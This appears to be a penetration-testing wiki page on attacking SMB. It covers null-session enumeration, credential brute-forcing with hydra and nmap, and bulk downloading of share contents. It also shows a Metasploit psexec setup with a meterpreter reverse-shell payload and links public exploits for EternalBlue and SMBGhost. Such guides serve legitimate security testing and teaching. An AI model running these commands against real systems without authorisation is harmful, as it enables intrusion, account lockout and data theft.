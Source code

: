 # 🛠️ (445) SMB

## Theory

SMB (Server Message Block) is a protocol running on port 445/tcp. It is used to share access to files, printers and serial ports on a network

In 1996 Microsoft releases a customized SMB they call CIFS (Common Internet File System). CIFS can sometimes be referred to as SMB1 (or SMBv1, SMB 1.0). In 2006, Microsoft introduced SMB2 (also referred to as SMB 2.0), a new version of the CIFS protocol. In 2012, Microsoft released SMB3 (a.k.a. SMB 3.0). As of 2020, most systems use SMB 2.0 or above.

In short, SMB is the protocol, CIFS is an old dialect of SMB, and Samba is the Linux/UNIX-like implementation of the SMB protocol (see [this](http://thewindowsupdate.com/2020/02/21/smb-and-null-sessions-why-your-pen-test-is-probably-wrong/)).

## Practice

### Null session

The null session, if not disabled, allows for anonymous/guest access to a network resource when using no credentials

{% tabs %}
{% tab title="UNIX-like" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) (C) and [smbmap](https://github.com/ShawnDEvans/smbmap) (Python) can be used to access SMB shares with null sessions. Null credentials do not have to be explicitly set in this case.

```bash
# List shares
smbclient --list //$IP
smbmap -H $IP

# List shares (implicit null creds)
smbclient --no-pass --list //$IP

# List shares (explicit null creds)
smbclient --user ''%'' --list //$IP
smbmap -u '' -p '' -H $IP

# Open an interactive session to operate on a specific share
smbclient //$IP/$SHARE_NAME
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to test for null session on multiple hosts.

```bash
crackmapexec smb $TARGETS -u '' -p '' --shares
```
{% endtab %}

{% tab title="Windows" %}
The `net` cmdlet can be used to natively interact with SMB shares and explicitly set null credentials.

{% hint style="warning" %}
If null credentials are not explicitly set, Windows will natively use implicit credentials (e.g. Kerberos tickets in cache, logged on user creds or computer account)
{% endhint %}

```bash
net use \\$IP\$SHARE_NAME '' /user:''
```
{% endtab %}
{% endtabs %}

### Bruteforce

Tools like [hydra](https://github.com/vanhauser-thc/thc-hydra), [metasploit](https://github.com/rapid7/metasploit-framework) or [nmap](https://github.com/nmap/nmap) can be used to operate authentication bruteforce attacks.

{% hint style="danger" %}
In addition to not being stealthy at all, and depending on the password policy rules in place, bruteforcing authentication could lead to accounts getting locked out when reaching maximum allowed tries.
{% endhint %}

```bash
# hydra
hydra -L usernames.txt -P passwords.txt $IP -V -f smb

# Metasploit module to use
msf5 > use auxiliary/scanner/smb/smb_login

# nmap
nmap --script smb-brute -p 445 $IP
```

Valid credentials can then be used to list accessible shares and enumerate the contents of the shares the account has access to.

### Data exfiltration

Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) and [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *

# With crackmapexec
crackmapexec smb $TARGETS -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

### 🛠️ Authenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

PSExec exploit module runs on the same principle as the PSExec Windows utility. The exploit embeds a payload into an executable, upload it into the Admin$ share. It then calls the Service Control Manager to approximately start a new rundll32.exe process that will execute our malicious executable.

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > show options
Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.131   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password for the specified username
   SMBUser  Administrator    yes       The username to authenticate as
```

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

{% hint style="warning" %}
File uploading, creating, starting, stopping, deletion of services makes it really noisy.
{% endhint %}

**Smbexec** works like **Psexec**, but instead of trying to execute an uploaded executable inside the share, it will try to use directly the binaries _cmd.exe/powershell.exe_. The exploit create an arbitrary service with the _Service File Name_ attribute set to a command string to execute. It echoes the command to be executed to a .bat file, execute it and delete it.

The exploit then get the output of the command via Smb and displays the content. For every command, a new service is created.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py" %}
Exploit
{% endembed %}

{% hint style="info" %}
**%COMSPEC%** is the environment variable that generaly points to the command line interpreter. (_cmd.exe, powershell.exe_...)
{% endhint %}

{% hint style="info" %}
The purpose of using **/Q** option of cmd is to stop displaying output. (je crois que ça veut dire /quiet à vérifier)
{% endhint %}

{% hint style="warning" %}
Prioritize using **Smbexec** when you detect a strong AV, `cmd.exe`is a trusted component of the operating system.
{% endhint %}

{% hint style="warning" %}
Privileged user credentials required.
{% endhint %}

Windows Management Instrumentation is a subsystem of PowerShell that gives high privileged access to system monitoring tools.

Wmiexec has a similar approach to smbexec but it is executing commands through WMI.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py" %}
Exploit
{% endembed %}

DCOM is a way for a computer to run a program over the network on a different computer as if the program was running locally.

Dcomexec has a similar approach to psexec but it is executing commands through DCOM.

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py" %}
Exploit
{% endembed %}

Crackmapexec is a swiss army that has featured a lot of the command execution methods mentionned precedently.

One of its feature is to automate the process of executing code via SMB by switching between methods when one fails.

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

### 🛠️ Unauthenticated RCE

{% tabs %}
{% tab title="undefined" %}

{% endtab %}
{% endtabs %}

Eternalblue is a flaw that allows remote attackers to execute arbitrary code on a target system by sending specially crafted messages to the **SMBv1** server. Other related exploits were labelled as`Eternalchampion`, `Eternalromance` and `Eternalsynergy.`

{% embed url="https://github.com/worawit/MS17-010" %}
POC
{% endembed %}

Smbghost is a bug occuring in the decompression mechanism of client message to a **SMBv3.11** server. This bug leads remotely and without any authentication to a **BSOD or an RCE** on the target.

{% embed url="https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-0796-RCE-POC" %}
POC
{% endembed %}

Smbleed allows to **leak kernel** memory remotely, it is also occuring in the same decompression mechanism as smbghost.

In order for the target to be vulnerable, it must have the **SMBv3.1.1** implementation running and the compression function enabled, which is on by **default**.

{% embed url="https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/" %}
Walktrough
{% endembed %}

{% embed url="https://github.com/ZecOps/CVE-2020-1206-POC" %}
POC
{% endembed %}

## References

{% embed url="https://pandorafms.com/blog/what-is-wmi/" %}

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-smb" %}

{% embed url="https://www.varonis.com/blog/dcom-distributed-component-object-model/" %}

{% embed url="https://www.optiv.com/blog/owning-computers-without-shell-access" %}
